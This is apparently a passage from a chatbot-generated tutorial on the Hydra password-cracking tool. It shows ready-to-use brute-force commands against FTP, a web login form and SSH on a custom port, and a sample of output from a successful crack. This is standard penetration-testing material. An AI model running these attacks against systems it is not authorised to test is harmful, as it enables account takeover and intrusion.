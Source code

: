     This command attempts to brute-force the FTP service on `target.example.com` with the username "admin" and passwords from the `password.txt` file.
3.  **Brute-forcing a web login form:**

    ```bash
    hydra -l user -P pass.txt target.example.com http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid username or password"
    ```

    This command attempts to brute-force a web login form on `target.example.com`. It specifies the login page (`/login.php`) and the parameters for the username (`username`) and password (`password`). The `^USER^` and `^PASS^` variables are placeholders that Hydra replaces with usernames and passwords from the specified lists. The "Invalid username or password" string is used to identify failed login attempts.
4.  **Using Hydra with a custom port:**

    ```bash
    hydra -l root -P pass.txt -s 2222 ssh://192.168.1.100
    ```

    This command attempts to brute-force the SSH service running on port 2222 of the target IP address `192.168.1.100`, using the username "root" and passwords from the `pass.txt` file.

### Expected Output

The output of Hydra will vary depending on the options used and the success of the attack. Here's an example of a successful login:

```
[ATTACKER] attacking ssh://192.168.1.100:22
[STATUS] 0.1 tries/min, 0.1 tries in 1 min, 1 task/min, 1 connections
[STATUS] 0.2 tries/min, 0.2 tries in 1 min, 1 task/min, 1 connections
[ssh] host: 192.168.1.100   login: root   password: password123
```

This output indicates that Hydra successfully found the password "password123" for the username "root" on the target SSH service.

If Hydra fails to find a valid password, it will display a message indicating that no password was found.


---
![server_inject_icon](https://pfst.cf2.poecdn.net/base/image/0e8698a6e80a985ec6d5f4d175c17866cee4b502ac78ccea3d02bb90fdca0b9f?w=100&h=33)
Related searches:
+ [hydra kali linux usage examples](https://www.google.com/search?q=hydra+kali+linux+usage+examples&client=app-vertex-grounding-quora-poe)
+ [hydra kali linux tool](https://www.google.com/search?q=hydra+kali+linux+tool&client=app-vertex-grounding-quora-poe)


                          ALTERNATIVE
  Hydra is a powerful and flexible password-cracking tool available on Kali Linux, designed for performing brute-force attacks against various network services. It supports over 50 protocols, making it a versatile choice for penetration testers and security professionals.
